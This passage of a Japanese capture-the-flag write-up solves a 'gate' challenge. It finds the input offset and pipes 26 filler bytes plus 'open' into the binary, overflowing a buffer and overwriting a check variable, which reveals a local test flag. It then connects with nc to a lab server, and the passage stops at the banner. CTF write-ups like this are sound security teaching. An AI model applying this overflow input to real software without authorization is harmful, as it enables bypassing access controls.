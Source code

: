 ```
You'll need permission to pass. What's your name?
> Gate is AAAA.
Goodbay AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
```

gateが完全に書き変わっているため、29にする。  
というのを繰り返していくと、27文字目から書き変わり始めていることが分かる。  
つまり、26文字適当に埋めて、27文字目からopenという文字を入れてやればgateの書き換えが可能なのではないかという仮説ができる。  
これを検証していく。  

```
suzumy@LAPTOP-EOURP8FK:~/ctf/setodaCTF$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAopen" | ./gate

                                  {} {}
                          !  !  ! II II !  !  !
                       !  I__I__I_II II_I__I__I  !
                       I_/|__|__|_|| ||_|__|__|\_I
                    ! /|_/|  |  | || || |  |  |\_|\ !
        .--.        I//|  |  |  | || || |  |  |  |\\I        .--.
       /-   \    ! /|/ |  |  |  | || || |  |  |  | \|\ !    /=   \
       \=__ /    I//|  |  |  |  | || || |  |  |  |  |\\I    \-__ /
        }  {  ! /|/ |  |  |  |  | || || |  |  |  |  | \|\ !  }  {
       {____} I//|  |  |  |  |  | || || |  |  |  |  |  |\\I {____}
 _!__!__|= |=/|/ |  |  |  |  |  | || || |  |  |  |  |  | \|\=|  |__!__!_
 _I__I__|  ||/|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|\||- |__I__I_
 -|--|--|- ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||= |--|--|-
  |  |  |  || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||  |  |  |
  |  |  |= || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||- |  |  |
 _|__|__|  ||_|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|_||  |__|__|_
 -|--|--|= ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||- |--|--|-
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
 ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

You'll need permission to pass. What's your name?
flag{hogehoge}
```
ローカル環境で用意した仮のフラグファイルを読みとっているため、検証が成功したことがわかる。  

同じことをリモート環境で行う。  

```
$ nc 10.1.1.10 13020

                                  {} {}
                          !  !  ! II II !  !  !
                       !  I__I__I_II II_I__I__I  !
                       I_/|__|__|_|| ||_|__|__|\_I
                    ! /|_/|  |  | || || |  |  |\_|\ !
        .--.        I//|  |  |  | || || |  |  |  |\\I        .--.
       /-   \    ! /|/ |  |  |  | || || |  |  |  | \|\ !    /=   \
       \=__ /    I//|  |  |  |  | || || |  |  |  |  |\\I    \-__ /
        }  {  ! /|/ |  |  |  |  | || || |  |  |  |  | \|\ !  }  {
       {____} I//|  |  |  |  |  | || || |  |  |  |  |  |\\I {____}
 _!__!__|= |=/|/ |  |  |  |  |  | || || |  |  |  |  |  | \|\=|  |__!__!_
 _I__I__|  ||/|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|\||- |__I__I_
 -|--|--|- ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||= |--|--|-
  |  |  |  || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||  |  |  |
  |  |  |= || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||- |  |  |
 _|__|__|  ||_|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|_||  |__|__|_
 -|--|--|= ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||- |--|--|-
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
 ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~
```